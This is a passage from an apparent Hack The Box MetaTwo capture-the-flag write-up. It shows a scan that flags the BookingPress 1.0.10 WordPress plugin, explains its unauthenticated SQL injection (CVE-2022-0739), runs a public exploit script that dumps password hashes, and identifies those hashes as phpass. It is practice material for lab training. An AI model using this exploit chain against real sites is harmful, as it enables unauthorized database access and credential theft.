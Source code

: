 		 | Version: 1.0.10 (100% confidence)
		 | Found By: Readme - Stable Tag (Aggressive Detection)
		 |  - http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt
		 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
		 |  - http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/readme.txt
		```
		> Potentially vulnerable plugin
		> - `bookingpress-appointment-booking` - `1.0.10`
		{: prompt-info}
		
## TCP/80 (HTTP) - WP Booking Press 1.0.10 Plugin SQLi
1. Search exploits for `bookingpress-appointment-booking` - `1.0.10`
	> [Chris01s](https://github.com/Chris01s)/**[CVE-2022-0739](https://github.com/Chris01s/CVE-2022-0739)**
	{: prompt-info}
2. How do we exploit `bookingpress-appointment-booking` - `1.0.10`
	> Due to **improper user input sanitization** in the `POST` data, before it is used in a dynamically constructed SQL query via the `bookingpress_front_get_category_services` (available to unauthenticated user), leading to an unauthenticated SQL injection.
	{: prompt-info}
3. Try [Chris01s](https://github.com/Chris01s)/**[CVE-2022-0739](https://github.com/Chris01s/CVE-2022-0739)**
	1. We have to find out the URL where the booking press application is in use.
		![](Pasted%20image%2020221120123123.png)
		>- `http://metapress.htb/events/`
		{: prompt-info}
	2. Run exploit
		```
		┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
		└─# bash exploit.sh http://metapress.htb/events/ | tail -n 3 | cut -d " " -f2 | tee hash
		$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
		$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
		```
4. Identify hashing alogrithm w/ `nth`
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
	└─# nth --file hash
	
	$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
	
	Most Likely
	Wordpress ≥ v2.6.2, HC: 400 JtR: phpass
	Joomla ≥ v2.5.18, HC: 400 JtR: phpass
	PHPass' Portable Hash, HC: 400 JtR: phpass
	
	
	$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
	No hashes found.
	```
	> Why is 2nd hash invalid ?
	> - 2nd hash is invalid because `\` is used to escape `/`, we have to remove the escape character, so that it is a valid hash.
	{: prompt-info}
5. Identify hashing alogrithm again
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
	└─# nth --file hash
	$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
	